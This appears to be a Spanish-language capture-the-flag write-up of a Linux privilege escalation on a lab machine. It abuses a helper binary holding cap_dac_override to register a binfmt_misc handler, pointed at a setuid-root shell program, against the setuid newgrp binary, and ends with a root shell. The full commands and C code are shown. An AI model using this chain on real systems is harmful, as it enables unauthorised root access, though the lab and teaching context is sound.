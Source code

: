 Como bien dicen, este binario tiene esta capability (primero tuve que retocar el PATH para verla porque era muy corto)
Dicha capability te permite cambiar de usaurio y grupo.
```console
dev@retired:~/emuemu$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games
dev@retired:~/emuemu$ getcap -r / 2>/dev/null /usr/bin/ping cap_net_raw=ep
/usr/lib/emuemu/reg_helper cap_dac_override=ep
```
La capability se pasa sobre este "/usr/lib/emuemu/reg_helper" que a su vez como nos dice su código, llama a binfmt_misc.
Una busqueda en google de dicha cosa (binfmt_misc) nos dice que:
 > binfmt_misc: binario de linux que permite que ciertos programas ejecuten otros con formatos raros, como emuladores y maquinas virtuales.  

Este binario tiene un archivo de una sola linea llamado "register" que define que programa ejecuta que cosa:
```:nombre:tipo:offset:magic:mask:interprete:flags```
Las opciones offset magic y mask son para el tipo si es "M" de magic number, el otro posible es "E" de extension, esta es la que usaremos, porque 
es mas sencilla:
> ":PWN:E::xii::/tmp/shell:C" -> Archivo "PWN" con la extension xii que ejecutara el programa /tmp/shell con la flag C (mantiene privilegios)  

La idea seria escribirlo en "/proc/sys/fs/binfmt_misc/register" pero no nos deja, asi que lo hacemos en reg_helper que, repito, escribe 
en "register" lo que se le pase por el stdin.
```
dev@retired:~/emuemu$ echo ":PWN:E::xii::/tmp/shell:C" | /usr/lib/emuemu/reg_helper
dev@retired:~/emuemu$ nano /tmp/shell
int main(void){
    setuid(0); setgid(0); system("/bin/bash");
}
dev@retired:/tmp$ gcc shell.c -o shell
dev@retired:/tmp$ find / -perm -4000 2>/dev/null | head -n 1
/usr/bin/newgrp
dev@retired:/tmp$ ln -s /usr/bin/newgrp PWN.xii
dev@retired:/tmp$ ./PWN.xii
root@retired:/tmp#
```
